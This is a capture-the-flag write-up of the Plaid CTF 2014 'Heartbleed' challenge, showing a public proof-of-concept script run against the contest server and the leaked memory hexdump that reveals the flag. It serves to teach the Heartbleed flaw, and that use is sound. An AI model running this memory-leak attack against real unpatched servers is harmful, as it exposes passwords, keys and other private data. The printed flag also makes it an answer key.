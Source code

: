 # Plaid CTF 2014: Heartbleed

**Category:** Misc
**Points:** 10
**Description:**

> Our hearts are bleeding. But instead of bleeding password bytes, they're bleeding flags. Please recover our flags so we don't bleed to death before we can update to 1.0.1-g. Site is up at <https://54.82.147.138:45373/>.
>
> (The flag format is `flag{...}`.)

## Write-up

The challenge name makes it pretty clear that the server is vulnerable to the [the Heartbleed bug](http://heartbleed.com/). Let’s use the famous [Heartbleed proof of concept script](heartbleed.py) and see what kind of data the server leaks:

```bash
$ ./heartbleed.py -p 45373 54.82.147.138
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 837
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
	0000: 02 40 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73  .@.flag{hey_guis
	0010: 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72  e_we_made_a_hear
	0020: 74 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79  tbleed}.flag{hey
	0030: 5F 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61  _guise_we_made_a
	0040: 5F 68 65 61 72 74 62 6C 65 65 64 7D 00 66 6C 61  _heartbleed}.fla
	0050: 67 7B 68 65 79 5F 67 75 69 73 65 5F 77 65 5F 6D  g{hey_guise_we_m
	0060: 61 64 65 5F 61 5F 68 65 61 72 74 62 6C 65 65 64  ade_a_heartbleed
	0070: 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65  }.flag{hey_guise
	0080: 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74  _we_made_a_heart
	0090: 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F  bleed}.flag{hey_
	00a0: 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F  guise_we_made_a_
	…
	3fc0: 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65 5F 77  flag{hey_guise_w
	3fd0: 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74 62 6C  e_made_a_heartbl
	3fe0: 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75  eed}.flag{hey_gu
	3ff0: 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65  ise_we_made_a_he

WARNING: server returned more data than it should; server is vulnerable!
```

The flag is `flag{hey_guise_we_made_a_heartbleed}`.

## Other write-ups and resources

* [Source code for this challenge, released after the CTF](https://github.com/pwning/plaidctf2014/tree/master/web/heartbleed)
